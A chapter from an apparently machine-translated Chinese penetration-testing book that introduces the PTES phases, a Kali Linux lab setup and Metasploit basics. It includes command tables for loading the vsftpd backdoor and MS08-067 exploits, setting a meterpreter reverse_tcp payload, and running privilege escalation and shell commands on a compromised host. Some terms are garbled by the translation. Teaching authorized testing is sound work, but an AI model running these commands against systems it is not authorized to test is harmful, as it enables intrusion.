# 十一、Metasploit 渗透测试

**渗透测试**是对基于计算机的系统的蓄意攻击，其目的是发现漏洞、安全弱点，并验证系统是否安全。渗透测试将建议组织在易受攻击时的安全态势，实施的安全是否足以抵御任何入侵，哪些安全控制可以绕过，等等。因此，渗透测试的重点是改善组织的安全态势。

渗透测试的成功在很大程度上取决于使用正确的工具和技术。渗透测试人员必须选择正确的工具和方法来完成测试。在谈到渗透测试的最佳工具时，首先想到的是 Metasploit。它被认为是当今进行渗透测试最有效的审计工具之一。Metasploit 提供了各种各样的漏洞利用、优秀的漏洞利用开发环境、信息收集和 web 测试功能，等等。

在介绍 Metasploit 从基础到精英的过程中，我们将坚持一步一步的方法，如下图所示：



本章将帮助您回顾渗透测试和 Metasploit 的基础知识，这将帮助您熟悉本书的节奏。

在本章中，您将了解以下主题：

*   渗透测试的各个阶段
*   Metasploit 框架的基础知识
*   Metasploit 漏洞利用和扫描模块的工作原理
*   使用 Metasploit 测试目标网络
*   使用数据库的好处
*   转向并深入内部网络

这里需要注意的一个重要点是，我们可能不会在一天之内成为一名专业的渗透测试人员。它需要练习、熟悉工作环境、在关键情况下执行的能力，最重要的是，了解我们必须如何循环完成渗透测试的各个阶段。

当我们考虑对组织进行渗透测试时，我们需要确保所有设置都正确，并且符合渗透测试标准。因此，如果您对渗透测试标准不熟悉或对术语**渗透测试执行标准**（**PTES**不满意，请参考[http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines](http://www.pentest-standard.org/index.php/PTES_Technical_Guidelines) 更加熟悉渗透测试和漏洞评估。根据 PTES，下图说明了渗透测试的各个阶段：



请参阅 pentest 标准网站[http://www.pentest-standard.org/index.php/Main_Page](http://www.pentest-standard.org/index.php/Main_Page) [设置在建立工作环境时应遵循的硬件和系统阶段。](http://www.pentest-standard.org/index.php/Main_Page)

# 组织渗透测试

在我们开始使用 Metasploit 发射复杂的攻击之前，让我们了解渗透测试的各个阶段，并了解如何组织专业规模的渗透测试。

# 预作用

渗透测试的第一个阶段，即预交互，涉及对客户组织、公司、机构或与客户本身的网络进行渗透测试的关键因素进行讨论。该阶段充当渗透测试仪、客户和他/她的需求之间的连接线。预交互有助于客户充分了解通过其网络/域或服务器执行的操作。

因此，测试人员将在这里作为客户的教育者。渗透测试人员还讨论测试范围，收集项目范围内所有领域的知识，以及进行分析时需要的任何特殊要求。这些要求包括特权、访问关键系统、网络或系统凭据等。项目的预期积极性也应成为本阶段与客户讨论的一部分。作为一个过程，我们将讨论以下一些关键点：

*   **范围**：本节审查项目范围，估算项目规模。该范围还定义了测试应包括的内容以及测试中应排除的内容。测试人员还讨论了测试范围和测试类型（黑框或白框）下的 IP 范围和域。在白盒测试中，测试人员还讨论了访问类型和所需的凭证；测试人员还为管理员创建、收集和维护调查问卷。测试的时间表和持续时间，无论是否包括压力测试，以及付款，都包含在范围内。一般范围文件提供了以下问题的答案：
    *   目标组织最重要的安全问题是什么？
    *   应该测试哪些特定主机、网络地址范围或应用？
    *   哪些特定主机、网络地址范围或应用不应明确测试？
    *   是否有任何第三方拥有范围内的系统或网络，他们持有哪些系统（必须事先获得目标组织的书面许可）？
    *   测试是在实时生产环境中执行还是在测试环境中执行？
    *   渗透测试是否包括以下测试技术：网络范围的 ping 扫描、目标主机的端口扫描、目标漏洞扫描、目标渗透、应用级操作、客户端 Java/ActiveX 反向工程、物理渗透尝试、社会工程？
    *   渗透测试是否包括内部网络测试？如果是，将如何获得访问权限？
    *   客户/最终用户系统是否包括在范围内？如果是，将利用多少客户？
    *   社会工程允许吗？如果是，如何使用？
    *   是否允许拒绝服务攻击？
    *   是否允许进行危险的检查/利用？
*   **目标**：本节讨论渗透测试要实现的各种主要和次要目标。与目标相关的常见问题如下：
    *   此渗透测试的业务要求是什么？
    *   该测试是监管审计所要求的，还是仅仅是一个标准程序？
    *   目标是什么？
        *   找出漏洞
        *   证明存在漏洞
        *   测试事件响应
        *   实际利用网络、系统或应用中的漏洞
        *   所有这些
*   **测试术语和定义**：本阶段与客户讨论基本术语，帮助客户更好地理解术语
*   **交战规则**：本节定义了测试的时间、时间表、攻击权限，以及更新正在进行的测试状态的定期会议。与接战规则相关的常见问题如下：
    *   您希望在什么时候执行这些测试？
        *   营业时间内
        *   下班后
        *   周末时间
        *   在系统维护窗口期间
    *   该测试将在生产环境中进行吗？
    *   如果不应影响生产环境，是否存在可用于进行渗透测试的类似环境（开发或测试系统）？
    *   谁是技术联络人？

有关预交互的更多信息，请参阅：[http://www.pentest-standard.org/index.php/File:Pre-engagement.png](http://www.pentest-standard.org/index.php/File:Pre-engagement.png)。

# 情报收集/侦察阶段

在情报收集阶段，您需要收集尽可能多的有关目标网络的信息。目标网络可以是一个网站、一个组织，也可以是一家成熟的财富公司。最重要的方面是从社交媒体网络收集有关目标的信息，并使用 Google Hacking（一种使用特定查询从 Google 提取敏感信息的方法）查找与待测试组织相关的机密和敏感信息。**足迹**组织使用主动和被动攻击也可以是一种方法。

情报收集阶段是渗透测试最关键的方面之一。正确获得目标知识将有助于测试人员模拟适当和准确的攻击，而不是尝试所有可能的攻击机制；它还将帮助测试人员节省大量时间。此阶段将消耗总测试时间的 40%到 60%，因为访问目标主要取决于系统的占用情况。

渗透测试人员必须通过执行各种扫描、查找开放端口、服务标识、选择哪些服务可能易受攻击以及如何利用这些服务进入所需系统，获得有关目标的充分知识。

需要在此阶段遵循的程序来确定当前部署在目标基础架构上的安全策略和机制，以及可以绕过这些策略和机制的程度。

让我们用一个例子来讨论这个问题。考虑对客户端希望执行网络应力测试的 Web 服务器进行黑盒测试。

在这里，我们将测试一台服务器，以检查服务器可以承受多大的带宽和资源压力，或者简单地说，服务器如何响应**拒绝服务**（**DoS**攻击。DoS 攻击或压力测试是向服务器发送不确定请求或数据的过程的名称，用于检查服务器是否能够成功处理和响应所有请求或崩溃，从而导致 DoS。如果目标服务容易受到巧尽心思构建的请求或数据包的攻击，也会发生 DoS。为此，我们启动网络压力测试工具，并对目标网站发起攻击。但是，在发起攻击几秒钟后，我们发现服务器没有响应我们的浏览器，并且站点也没有打开。此外，会显示一个页面，说明该网站当前处于脱机状态。那么这意味着什么呢？我们是否成功取出了所需的 web 服务器？不！实际上，这是服务器管理员设置的保护机制的一个标志，该机制感知到我们关闭服务器的恶意意图，从而导致我们的 IP 地址被禁止。因此，在发动攻击之前，我们必须收集正确的信息并识别目标的各种安全服务。

更好的方法是从不同的 IP 范围测试 web 服务器。也许保留两到三个不同的虚拟专用服务器进行测试是正确的方法。此外，我建议您在向真实目标发射这些攻击向量之前，在虚拟环境中测试所有攻击向量。必须正确验证攻击向量，因为如果我们在攻击之前不验证攻击向量，可能会导致目标服务崩溃，这一点都不有利。网络压力测试应在接战结束时或在维护窗口内进行。此外，要求客户机提供用于测试的白名单 IP 地址总是很有帮助的。

现在，让我们来看第二个例子。考虑对 Windows 2012 服务器进行黑盒测试。扫描目标服务器时，我们发现端口`80`和端口`8080`处于打开状态。在端口`80`上，我们看到最新版本的**互联网信息服务**（**IIS**正在运行，而在端口`8080`上，我们发现**Rejetto HFS 服务器**的易受攻击版本正在运行，容易出现**远程代码执行**漏洞。

然而，当我们试图利用这个易受攻击的 HFS 版本进行攻击时，攻击失败。这种情况是防火墙阻止恶意入站流量的典型情况。

在这种情况下，我们可以简单地改变从服务器连接回来的方法，这将建立从目标到系统的连接，而不是直接连接到服务器。由于防火墙通常被配置为检查入口流量而不是出口流量，因此这种更改可能会更为成功。

作为一个过程，该阶段可分为以下关键点：

*   **目标选择**：选择要攻击的目标，识别攻击目标，攻击时间。
*   **隐蔽收集**：这涉及从物理现场、使用中的设备和垃圾箱潜水收集数据。此阶段仅为现场白盒测试的一部分。
*   **足迹**：足迹包括主动或被动扫描，以识别部署在目标上的各种技术和软件，包括端口扫描、旗帜抓取等。
*   **识别保护机制**：这涉及识别防火墙、过滤系统、基于网络和主机的保护等。

有关收集情报的更多信息，请参阅：[http://www.pentest-standard.org/index.php/Intelligence_Gathering](http://www.pentest-standard.org/index.php/Intelligence_Gathering) 。

# 威胁建模

威胁建模有助于进行全面的渗透测试。这一阶段的重点是对真正的威胁、其影响进行建模，并根据其可能造成的影响对其进行分类。根据情报收集阶段所做的分析，我们可以对可能的最佳攻击向量进行建模。威胁建模适用于业务资产分析、流程分析、威胁分析和威胁能力分析。本阶段回答以下问题：

*   我们如何攻击特定的网络？
*   我们需要访问哪些关键部分？
*   什么方法最适合攻击？
*   评级最高的威胁是什么？

对威胁进行建模将有助于渗透测试人员执行以下一组操作：

*   收集有关高级威胁的相关文档
*   在分类的基础上确定组织的资产
*   识别和分类风险
*   将威胁映射到公司的资产

对威胁进行建模将有助于确定具有可能影响这些资产的风险的最高优先级资产。

考虑对公司网站进行黑盒测试。在这里，有关公司客户的信息是主要资产。在同一后端的不同数据库中，也可能存储事务记录。在这种情况下，攻击者可以利用 SQL 注入的威胁跨过事务记录数据库。因此，交易记录是次要资产。看到影响后，我们可以将 SQL 注入攻击的风险映射到资产。

漏洞扫描器，如**Nexpose**和 Metasploit 的 Pro 版本，可以使用自动化方法帮助精确快速地建模威胁。因此，在进行广泛测试时，它可以证明是方便的。

有关威胁建模阶段涉及的流程的更多信息，请参阅：[http://www.pentest-standard.org/index.php/Threat_Modeling](http://www.pentest-standard.org/index.php/Threat_Modeling) 。

# 脆弱性分析

漏洞分析是发现系统或应用中缺陷的过程。这些缺陷可能从服务器到 web 应用，从不安全的应用设计到易受攻击的数据库服务，从基于**VOIP**的服务器到基于**SCADA**的服务。此阶段包含三种不同的机制，即测试、验证和研究。测试包括主动测试和被动测试。验证包括删除误报和通过手动验证确认漏洞的存在。研究是指验证发现的漏洞并触发它以证明其存在。

有关威胁建模阶段涉及的流程的更多信息，请参阅：[http://www.pentest-standard.org/index.php/Vulnerability_Analysis](http://www.pentest-standard.org/index.php/Vulnerability_Analysis) 。

# 剥削和剥削后

攻击阶段包括利用以前发现的漏洞。这个阶段是实际的攻击阶段。在此阶段，渗透测试人员会对系统的目标漏洞进行攻击，以获得访问权限。这一阶段贯穿全书。

开采后阶段是开采的后期阶段。这个阶段涵盖了我们可以在被利用的系统上执行的各种任务，例如提升权限、上载/下载文件、旋转等。

有关开发阶段所涉及流程的更多信息，请参阅：[http://www.pentest-standard.org/index.php/Exploitation](http://www.pentest-standard.org/index.php/Exploitation) 。

关于后期开发的更多信息，请参考[http://www.pentest-standard.org/index.php/Post_Exploitation](http://www.pentest-standard.org/index.php/Post_Exploitation) 。

# 报告

创建整个渗透测试的正式报告是渗透测试的最后一个阶段。识别关键漏洞、创建图表、建议和建议的修复是渗透测试报告的重要组成部分。本书后半部分将介绍专门用于报告的整个章节。

有关威胁建模阶段涉及的流程的更多信息，请参阅：[http://www.pentest-standard.org/index.php/Reporting](http://www.pentest-standard.org/index.php/Reporting) 。

# 安装环境

成功的渗透测试很大程度上取决于您的工作环境和实验室的配置情况。此外，成功的测试回答了以下问题：

*   您的测试实验室配置得如何？
*   测试所需的所有工具都可用吗？
*   您的硬件支持此类工具的性能如何？

在我们开始测试任何东西之前，我们必须确保所有必需的工具集都可用并更新。

# 在虚拟环境中设置 Kali Linux

在使用 Metasploit 之前，我们需要有一个测试实验室。建立测试实验室的最佳方法是收集不同的机器并在其上安装不同的操作系统。然而，如果我们只有一台设备，最好的办法是建立一个虚拟环境。

虚拟化在当今的渗透测试中起着至关重要的作用。由于硬件成本高，虚拟化在渗透测试中发挥着经济高效的作用。在主机操作系统下模拟不同的操作系统不仅可以节省资金，还可以节省电力和空间。但是，建立虚拟渗透测试实验室可以防止对实际主机系统进行任何修改，并允许我们在隔离环境中执行操作。虚拟网络使网络攻击能够在隔离网络中运行，从而防止对主机系统的网络硬件进行任何修改或使用。

此外，虚拟化的快照功能有助于在特定时间点保持虚拟机的状态。此功能非常有用，因为我们可以在测试虚拟环境时比较或重新加载操作系统的以前状态，而无需重新安装整个软件，以防在攻击模拟后修改文件。

虚拟化要求主机系统拥有足够的硬件资源，如 RAM、处理能力、驱动器空间等，以便顺利运行。

有关快照的更多信息，请参阅：[https://www.virtualbox.org/manual/ch01.html#snapshots](https://www.virtualbox.org/manual/ch01.html#snapshots) 。

因此，让我们看看如何使用 Kali 操作系统（渗透测试最受欢迎的操作系统，默认情况下包含 Metasploit 框架）创建虚拟环境。

您始终可以在此处下载针对 Kali Linux 的预构建 VMware 和 VirtualBox 映像：[https://www.offensive-security.com/kali-linux-vmware-virtualbox-image-download/](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-hyperv-image-download/) 。

要创建虚拟环境，我们需要虚拟机软件。我们可以使用两种最流行的播放器中的任意一种：VirtualBox 和 VMware Workstation Player。因此，让我们从安装开始，执行以下步骤：

1.  下载 VMware Workstation Player（[https://my.vmware.com/web/vmware/free#desktop_end_user_computing/vmware_workstation_player/14_0](https://my.vmware.com/web/vmware/free#desktop_end_user_computing/vmware_workstation_player/14_0) ）并根据您机器的架构进行设置。
2.  运行安装程序并完成安装。
3.  下载最新的 Kali 虚拟机映像（[https://images.offensive-security.com/virtual-images/kali-linux-2017.3-vm-amd64.ova](https://images.offensive-security.com/virtual-images/kali-linux-2017.3-vm-amd64.ova) ）
4.  运行 VM Player 程序，如以下屏幕截图所示：

5.  接下来，转到播放器选项卡并选择文件|打开。
6.  浏览到针对 Kali Linux 提取的`*.ova`文件，然后单击打开。我们将看到以下屏幕：

7.  选择任意名称并选择存储路径（我更喜欢在具有最大可用空间的驱动器上创建单独的文件夹），然后单击导入。
8.  导入可能需要一点时间。同时耐心地听你最喜欢的音乐。

9.  导入成功后，我们可以在虚拟机列表中看到新添加的虚拟机，如下图所示：

10.  接下来，我们只需要启动操作系统。好消息是，预安装的 Kali Linux VMware 映像与 VMware 工具一起提供，这些工具使拖放、装载共享文件夹等功能可以随时使用。
11.  Kali Linux 的默认凭证为`root`：`toor`，其中`root`为用户名，`toor`为密码。

12.  让我们快速打开一个终端，初始化并启动 Metasploit 数据库，如以下屏幕截图所示：



13.  让我们通过发出`msfconsole`命令开始 Metasploit 框架，如下面的屏幕截图所示：

有关 Kali Linux 上完整的持久性安装指南，请参阅：[https://docs.kali.org/category/installation](https://docs.kali.org/category/installation) 。

要在 Linux 中通过命令行安装 Metasploit，请参阅：[http://www.darkoperator.com/installing-metasploit-in-ubunt/](https://www.darkoperator.com/installing-metasploit-in-ubunt/) 。

要在 Windows 上安装 Metasploit，请参阅此处的优秀指南：[https://www.packtpub.com/mapt/book/networking_and_servers/9781788295970/2/ch02lvl1sec20/installing-metasploit-on-windows](https://www.packtpub.com/mapt/book/networking_and_servers/9781788295970/2/ch02lvl1sec20/installing-metasploit-on-windows) 。

# Metasploit 的基本原理

既然我们已经回顾了渗透测试的基本阶段并完成了 Kali Linux 的设置，那么让我们来谈谈大局；也就是说，Metasploit。Metasploit 是一个安全项目，它提供漏洞利用和大量侦察功能来帮助渗透测试人员。Metasploit 由 H.D.Moore 在 2003 年创建，自那时起，它的快速发展使它成为公认的最流行的渗透测试工具之一。Metasploit 完全是一个 Ruby 驱动的项目，提供了大量的漏洞利用、有效负载、编码技术和大量的漏洞利用后功能。

Metasploit 有多种版本，如下所示：

*   **Metasploit Pro**：该版本为商业版，提供了大量强大功能，如 web 应用扫描、开发、自动开发等，非常适合专业渗透测试人员和 IT 安全团队。Pro 版本主要用于专业、高级和大型渗透测试以及企业安全程序。
*   **Metasploit Express**：快速版用于基线渗透测试。此版本 Metasploit 的功能包括智能攻击、自动强制使用凭据等。此版本非常适合中小型公司的 IT 安全团队。
*   **Metasploit 社区**：这是一个免费版，与快速版相比功能有所减少。然而，对于学生和小企业来说，这个版本是一个不错的选择。
*   **Metasploit Framework**：这是一个命令行版本，包含所有手动任务，如手动开发、第三方导入等。此版本适用于开发人员和安全研究人员。

在本书中，我们将使用 Metasploit 社区和框架版本。Metasploit 还提供各种类型的用户界面，如下所示：

*   **GUI 界面**：点击一个按钮，GUI 就有了所有可用的选项。此界面提供了一个用户友好的界面，有助于提供更清晰的漏洞管理。
*   **控制台界面**：这是首选界面，也是最流行的界面。此接口为 Metasploit 提供的所有选项提供了一种一体化方法。该接口也被认为是最稳定的接口之一。在本书中，我们将使用最多的控制台界面。
*   **命令行界面**：命令行界面是最强大的界面。它支持对有效负载生成等活动发起攻击。然而，在使用命令行界面时记住每个命令是一项困难的工作。
*   **Armitage**：拉斐尔·穆奇（Raphael Mudge）的 Armitage 为 Metasploit 添加了一个酷炫的黑客风格 GUI 界面。Armitage 提供了轻松的漏洞管理、内置 NMAP 扫描、漏洞利用建议，以及使用 Cortana 脚本语言自动化功能的能力。本书后半部分有一整章专门介绍 Armitage 和科尔塔纳。

有关 Metasploit 社区的更多信息，请参阅：[https://blog.rapid7.com/2011/12/21/metasploit-tutorial-an-introduction-to-metasploit-community/](https://blog.rapid7.com/2011/12/21/metasploit-tutorial-an-introduction-to-metasploit-community/) 。

# 使用 Metasploit 进行渗透测试

在设置了 Kali Linux 之后，我们现在准备使用 Metasploit 执行第一次渗透测试。然而，在开始测试之前，让我们回顾一下 Metasploit 框架中使用的一些基本函数和术语。

# 回顾 Metasploit 的基础知识

在运行 Metasploit 之后，我们可以通过键入 help 或？在 Metasploit 控制台中。让我们回顾一下 Metasploit 中使用的基本术语，如下所示：

*   **利用**：这是一段代码，执行时将利用目标的漏洞进行攻击。
*   **有效载荷**：成功利用后在目标上运行的一段代码。它定义了我们要在目标系统上执行的操作。
*   **辅助**：这些模块提供扫描、模糊、嗅探等附加功能。
*   **编码器**：编码器用于混淆模块，以避免被防病毒或防火墙等保护机制检测到。
*   **MeterMeter**：MeterMeter 是一种使用内存 DLL 注入级的有效负载。它提供了在目标位置执行的各种功能，这使得它成为一种流行的选择。

现在，让我们回顾一下我们将在本章中使用的 Metasploit 的一些基本命令。让我们看看他们应该做什么：

| **命令** | **用法** | **示例** |
| `use [Auxiliary/Exploit/Payload/Encoder]` | 选择要开始使用的特定模块的步骤 | `msf>use exploit/unix/ftp/vsftpd_234_backdoor msf>use auxiliary/scanner/portscan/tcp` |
| `show [exploits/payloads/encoder/auxiliary/options]` | 查看特定类型的可用模块列表 | `msf>show payloads msf> show options` |
| `set [options/payload]` | 为特定对象设置值的步骤 | `msf>set payload windows/meterpreter/reverse_tcp msf>set LHOST 192.168.10.118 msf> set RHOST 192.168.10.112 msf> set LPORT 4444 msf> set RPORT 8080` |
| `setg [options/payload]` | 全局设置特定对象的值，使其在打开模块时不会更改 | `msf>setg RHOST 192.168.10.112` |
| `run` | 设置所有必需选项后启动辅助模块 | `msf>run` |
| `exploit` | 利用 | `msf>exploit` |
| `back` | 取消选择模块并向后移动的步骤 | `msf(ms08_067_netapi)>back msf>` |
| `Info` | 列出与特定漏洞/模块/辅助工具相关的信息 | `msf>info exploit/windows/smb/ms08_067_netapi msf(ms08_067_netapi)>info` |
| `Search` | 查找特定模块的步骤 | `msf>search hfs` |
| `check` | 检查特定目标是否易受攻击 | `msf>check` |
| `Sessions` | 列出可用的会话 | `msf>sessions [session number]` |

我们也来看看基本的 MeterMeter 命令：

| **仪表指令** | **用法** | **示例** |
| `sysinfo` | 列出受损主机的系统信息 | `meterpreter>sysinfo` |
| `ifconfig` | 列出受损主机上的网络接口 | `meterpreter>ifconfig meterpreter>ipconfig (Windows)` |
| `arp` | 连接到目标的主机的 IP 和 MAC 地址列表 | `meterpreter>arp` |
| `background` | 将活动会话发送到后台 | `meterpreter>background` |
| `shell` | 在目标上放置 cmd shell | `meterpreter>shell` |
| `getuid` | 获取当前用户的详细信息 | `meterpreter>getuid` |
| `getsystem` | 升级权限并获得系统访问权限 | `meterpreter>getsystem` |
| `getpid` | 获取 MeterMeter 访问的进程 ID | `meterpreter>getpid` |
| `ps` | 列出目标上运行的所有进程 | `meterpreter>ps` |

既然我们现在已经回顾了 Metasploit 命令的基础知识，那么让我们在下一节中看看使用 Metasploit 相对于传统工具和脚本的好处。

如果您是第一次使用 Metasploit，请参阅[https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/) 了解有关基本命令的更多信息。

# 使用 Metasploit 进行渗透测试的好处

在进入示例渗透测试之前，我们必须知道为什么我们更喜欢 Metasploit 而不是手动开发技术。这是因为一个类似黑客的终端给人一种专业的感觉，还是有不同的原因？与传统的手动技术相比，Metasploit 是一个更好的选择，因为以下章节将讨论特定的因素。

# 开源

应该使用 Metasploit 框架的一个主要原因是它是开源的，并且是积极开发的。各种其他高报酬的工具用于进行渗透测试。但是，Metasploit 允许用户访问其源代码并添加自定义模块。Metasploit 的专业版是收费的，但为了便于学习，社区版是首选。

# 支持测试大型网络和自然命名约定

使用 Metasploit 很容易。然而，在这里，易用性指的是命令的自然命名约定。Metasploit 在进行大规模网络渗透测试时提供了极好的舒适性。考虑一个场景，我们需要测试一个有 200 个系统的网络。Metasploit 提供了自动检查整个范围的功能，而不是逐个检查每个系统。Metasploit 使用子网和**无类域间路由**（**CIDR**值等参数测试所有系统以利用漏洞，而使用手动技术，我们可能需要在 200 个系统上手动启动漏洞攻击。因此，Metasploit 节省了大量的时间和精力。

# 智能有效载荷生成和切换机制

最重要的是，在 Metasploit 中切换有效负载很容易。Metasploit 提供了使用`set payload`命令快速访问更改有效负载的功能。因此，将基于 MeterMeter 或 shell 的访问转换为更具体的操作（例如添加用户和获得远程桌面访问）变得很容易。通过从命令行使用`msfvenom`应用，生成用于手动攻击的外壳代码也变得很容易。

# 清洁出口

Metasploit 还负责从它所破坏的系统中更干净地退出。另一方面，自定义编码的攻击可在退出其操作时使系统崩溃。在我们知道服务不会立即重新启动的情况下，干净地退出确实是一个重要因素。

考虑一个场景，我们破坏了一个 Web 服务器，当我们正在退出时，被开发的应用崩溃了。服务器的计划维护时间剩下 50 天。那么，我们该怎么办？我们是否应该在接下来的 50 多天里等待这项服务再次出现，以便我们能够再次利用它？此外，如果服务在修补后恢复，该怎么办？我们最终只能踢自己。这也显示出渗透测试技能差的明显迹象。因此，更好的方法是使用 Metasploit 框架，该框架以更干净的出口著称，并提供大量的后期开发功能，如持久性，可以帮助维护对服务器的永久访问。

# GUI 环境

Metasploit 提供友好的 GUI 和第三方界面，如 Armitage。这些接口通过提供诸如易于切换的工作区、动态漏洞管理和只需单击按钮即可实现的功能等服务来简化渗透测试项目。我们将在本书后面的章节中详细讨论这些环境。

# 案例研究-深入未知网络

回顾 Metasploit 的基础知识，我们都准备好使用 Metasploit 执行第一次渗透测试。考虑一个现场场景，我们被要求测试 IP 地址并检查它是否易受攻击。该测试的唯一目的是确保所有适当的检查是否到位。情况相当简单。我们假设所有的预交互都是与客户机进行的，并且实际的测试阶段即将开始。

如果您想在阅读案例研究的同时进行实际操作，请参阅*重温案例研究*部分，因为这将帮助您模拟整个案例研究，并提供准确的配置和网络细节。

# 搜集情报

如前所述，收集情报阶段围绕着收集尽可能多的目标信息展开。这包括执行主动和被动扫描，包括端口扫描、横幅抓取和各种其他扫描。当前场景下的目标是单个 IP 地址，因此在这里，我们可以跳过收集被动信息，而只继续使用主动信息收集方法。

让我们从示意图阶段开始，该阶段包括端口扫描、横幅抓取、检查系统是否处于活动状态的 ping 扫描，以及服务检测扫描。

为了进行封装外形和扫描，Nmap 被证明是可用的最好的工具之一。Nmap 生成的报告可以轻松导入 Metasploit。但是，Metasploit 具有内置的 Nmap 功能，可用于从 Metasploit 框架控制台内执行 Nmap 扫描，并将结果存储在数据库中。

参见[https://nmap.org/bennieston-tutorial/](https://nmap.org/bennieston-tutorial/) 了解有关 Nmap 扫描的更多信息。

参考一本关于 Nmap 的优秀书籍，网址为：[https://www.packtpub.com/networking-and-servers/nmap-6-network-exploration-and-security-auditing-cookbook](https://www.packtpub.com/networking-and-servers/nmap-6-network-exploration-and-security-auditing-cookbook) 。

# 在 Metasploit 中使用数据库

在进行渗透测试时，将结果自动存储在旁边总是一种更好的方法。利用数据库将帮助我们建立主机、服务和渗透测试范围内漏洞的知识库。为了实现这一功能，我们可以在 Metasploit 中使用数据库。将数据库连接到 Metasploit 还可以加快搜索并缩短响应时间。以下屏幕截图描述了未连接数据库时的搜索：



我们在安装阶段看到了如何为 Metasploit 初始化数据库并启动它。要检查 Metasploit 当前是否连接到数据库，只需键入`db_status`命令，如以下屏幕截图所示：



在某些情况下，我们可能希望连接到单独的数据库，而不是默认的 Metasploit 数据库。在这种情况下，我们可以使用`db_connect`命令，如下图所示：



要连接到数据库，我们需要提供用户名、密码和带有数据库名称的端口以及`db_connect`命令。

让我们看看其他核心数据库命令应该做什么。下表将帮助我们理解这些数据库命令：

| **命令** | **使用信息** |
| `db_connect` | 此命令用于与默认数据库以外的数据库进行交互 |
| `db_export` | 此命令用于导出存储在数据库中的整个数据集，以便创建报告或作为其他工具的输入 |
| `db_nmap` | 此命令用于使用 Nmap 扫描目标，并将结果存储在 Metasploit 数据库中 |
| `db_status` | 此命令用于检查数据库连接是否存在 |
| `db_disconnect` | 此命令用于断开与特定数据库的连接 |
| `db_import` | 此命令用于从其他工具（如 Nessus、Nmap 等）导入结果 |
| `db_rebuild_cache` | 如果较早的缓存损坏或存储的结果较旧，则此命令用于重建缓存 |

